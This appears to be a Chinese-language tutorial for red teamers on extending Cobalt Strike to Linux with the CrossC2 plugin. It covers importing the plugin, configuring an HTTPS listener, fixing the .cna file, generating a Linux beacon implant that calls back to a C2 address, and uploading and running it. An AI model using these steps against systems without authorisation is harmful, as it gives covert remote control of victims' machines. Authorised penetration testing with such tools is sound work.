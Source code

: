 # 1. 前言

默认情况下CS是不支持上线Linux的，只支持上线Windows，但是再事情的渗透测试过程中，一般企业重用的业务通常都是运行再Linux上的，这就会导致原版的CS无法上线Linux，而这时候可以使用crossC2插件来解决这个问题。

# 2. 下载插件

crossC2主要面向企业自身及红队人员的安全评估框架，支持CobaltStrike对其他平台(Linux/MacOS/...)的安全评估，支持自定义模块，及包含一些常用的渗透模块。

[crossC2插件](https://github.com/gloxec/CrossC2)

这里我们需要下载两个文件，主要其中Linux与MacOS是需要根据自己的服务器系统来判断，通常来说都是使用Linux系统。

![image-20230612133715182](assets/UbAGy8dMcxV5SH1.png)

# 3. CS配置

这里我们首先先启动CS，这一步想必应该不需要解释吧！

## 3.1. 客户端配置

### 3.1.1. 导入插件文件

将下载好的后缀为.cna文件导入进CS中。

![image-20230612134028265](assets/Ij62b7mKLDNlUqe.png)

### 3.1.2. 配置监听

由于插件只支持HTTPS与TCP，所以这里我们选择的监听就选择HTTPS吧。

![image-20230612134209790](assets/EzdhiDBbvmYntUu.png)

## 3.2. 服务端配置

### 3.2.1. 导入配置文件

这里将下载下来的结尾是.Linux的文件导入到服务器中，注意需要导入到CS目录下，并赋予执行权限。

```
chmod +x genCrossC2.Linux
```

![image-20230612134343754](assets/QOEP1giWv9RUGrk.png)

这里最好的将CS客户端重启一次。

## 3.3. 生成木马

当在之前加载插件后，就会出现这个CroseC2了，只不过建议，当将.Linux文件上传到服务端并添加执行权限后，最好是重启以下CS客户端。

这里我们选择HTTPS的选项。

![image-20230612134521051](assets/fB4ZWjLqhbRJ3pt.png)

这里相关的内容看图片上的文字，生成情况，会在会话事件日志中出现，确实这个点击生成后，并会直接像CS一样弹窗出来，而且是需要你去执行命令去生成。

所以一般情况下可以不使用这个界面去生成，可以直接使用命令。

```
./genCrossC2.Linux 192.168.10.20 5555 ./.cobaltstrike.beacon_keys null Linux x64 t_cc2.out

这个命令其实仔细看是能够看出来的的前面的是我们之前上传到服务端的.Linux文件，后面跟着服务器地址及监听端口。
后面./.cobaltstrike.beacon_keys 输入ls -l 能够看到隐藏文件，后面的想必不用介绍了吧。
```

当然如果觉得命令麻烦，那么就是直接在下面的图片中点击生成，然后将命令复制到Linux中进行执行，因为不一定能够执行成功！！

![image-20230612134922296](assets/5I7P2HmeEOxz1ds.png)

### 3.3.1. 修改cna文件

当你点击生成后会发现，命令无法执行？这是由于在cna文件中的配置并没有修改，看下图，还是mac的。这时候我们就需要去修改cna文件。

![image-20230612135457908](assets/oUckaP1vf8yCbeW.png)

找到cna文件，也就是之前加载的文件，修改里面的地址，地址是你cs文件夹，下面的是你的系统文件，也就是刚刚下载的.Linux文件名字，其它的是不需要修改的。

修改后，要将CS客户端重启哦。

![image-20230612135615833](assets/voHgBzxAZQpVuRT.png)

### 3.3.2. 修改后效果

可以看到前后的对比，前面有相应的路径了。

![image-20230612135714568](assets/UA8K5fi2k1mCawZ.png)

然后将命令输入到Linux中进行执行，当然我的建议是在cs目录下执行，去除前面的绝对路径。

```
./genCrossC2.Linux 192.168.10.20 5555 ./.cobaltstrike.beacon_keys null Linux x64 t_cc2.out
```

![image-20230612135920642](assets/rIVixEX5gLf9otR.png)

## 3.4. 执行木马

将木马上传到Linux系统中，然后基于执行权限，并且执行木马，从CS客户端可以看到成功上线。

```
chmod +x t_cc2.out
./t_cc2.out
```

![image-20241026233444818](assets/image-20241026233444818.png)